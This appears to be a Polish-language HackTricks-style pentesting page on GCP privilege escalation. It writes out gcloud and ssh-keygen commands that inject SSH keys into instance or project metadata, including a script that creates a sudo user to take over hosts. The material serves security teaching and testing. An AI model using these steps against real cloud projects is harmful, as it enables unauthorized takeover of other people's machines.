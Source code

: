 # GCP - Dodaj niestandardowe metadane SSH

{{#include ../../../../banners/hacktricks-training.md}}

## Modyfikacja metadanych <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modyfikacja metadanych na instancji może prowadzić do **znaczących zagrożeń bezpieczeństwa, jeśli atakujący zdobędzie niezbędne uprawnienia**.

### **Inkorporacja kluczy SSH do niestandardowych metadanych**

Na GCP, **systemy Linux** często wykonują skrypty z [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Krytycznym komponentem tego jest [demon konta](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), który jest zaprojektowany do **regularnego sprawdzania** punktu końcowego metadanych instancji w poszukiwaniu **aktualizacji autoryzowanych kluczy publicznych SSH**.

Dlatego, jeśli atakujący może modyfikować niestandardowe metadane, może sprawić, że demon znajdzie nowy klucz publiczny, który zostanie przetworzony i **zintegrowany z lokalnym systemem**. Klucz zostanie dodany do pliku `~/.ssh/authorized_keys` **istniejącego użytkownika lub potencjalnie stworzy nowego użytkownika z uprawnieniami `sudo`**, w zależności od formatu klucza. A atakujący będzie mógł przejąć kontrolę nad hostem.

### **Dodaj klucz SSH do istniejącego uprzywilejowanego użytkownika**

1. **Zbadaj istniejące klucze SSH na instancji:**

- Wykonaj polecenie, aby opisać instancję i jej metadane, aby zlokalizować istniejące klucze SSH. Odpowiednia sekcja w wynikach będzie pod `metadata`, a konkretnie kluczem `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- Zwróć uwagę na format kluczy SSH: nazwa użytkownika poprzedza klucz, oddzielona dwukropkiem.

2. **Przygotuj plik tekstowy dla metadanych klucza SSH:**
- Zapisz szczegóły nazw użytkowników i ich odpowiadających kluczy SSH w pliku tekstowym o nazwie `meta.txt`. To jest istotne dla zachowania istniejących kluczy podczas dodawania nowych.
3. **Wygeneruj nowy klucz SSH dla docelowego użytkownika (`alice` w tym przykładzie):**

- Użyj polecenia `ssh-keygen`, aby wygenerować nowy klucz SSH, upewniając się, że pole komentarza (`-C`) odpowiada docelowej nazwie użytkownika.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Dodaj nowy klucz publiczny do `meta.txt`, naśladując format znaleziony w metadanych instancji.

4. **Zaktualizuj metadane klucza SSH instancji:**

- Zastosuj zaktualizowane metadane klucza SSH do instancji, używając polecenia `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Uzyskaj dostęp do instancji za pomocą nowego klucza SSH:**

- Połącz się z instancją za pomocą SSH, używając nowego klucza, uzyskując dostęp do powłoki w kontekście docelowego użytkownika (`alice` w tym przykładzie).

```bash
ssh -i ./key alice@localhost
sudo id
```

### **Utwórz nowego uprzywilejowanego użytkownika i dodaj klucz SSH**

Jeśli nie znaleziono interesującego użytkownika, można stworzyć nowego, któremu nadane zostaną uprawnienia `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Klucze SSH na poziomie projektu <a href="#sshing-around" id="sshing-around"></a>

Możliwe jest rozszerzenie zasięgu dostępu SSH do wielu maszyn wirtualnych (VM) w środowisku chmurowym poprzez **zastosowanie kluczy SSH na poziomie projektu**. To podejście umożliwia dostęp SSH do każdej instancji w projekcie, która nie zablokowała wyraźnie kluczy SSH na poziomie projektu. Oto podsumowany przewodnik:

1. **Zastosuj klucze SSH na poziomie projektu:**

- Użyj polecenia `gcloud compute project-info add-metadata`, aby dodać klucze SSH z `meta.txt` do metadanych projektu. Ta akcja zapewnia, że klucze SSH są rozpoznawane we wszystkich VM w projekcie, chyba że VM ma włączoną opcję "Zablokuj klucze SSH na poziomie projektu".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH do instancji za pomocą kluczy na poziomie projektu:**
- Mając klucze SSH na poziomie projektu, możesz połączyć się SSH z dowolną instancją w projekcie. Instancje, które nie blokują kluczy na poziomie projektu, zaakceptują klucz SSH, przyznając dostęp.
- Bezpośrednią metodą na połączenie SSH z instancją jest użycie polecenia `gcloud compute ssh [INSTANCE]`. To polecenie wykorzystuje Twoją bieżącą nazwę użytkownika i klucze SSH ustawione na poziomie projektu, aby spróbować uzyskać dostęp.

## Referencje

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}

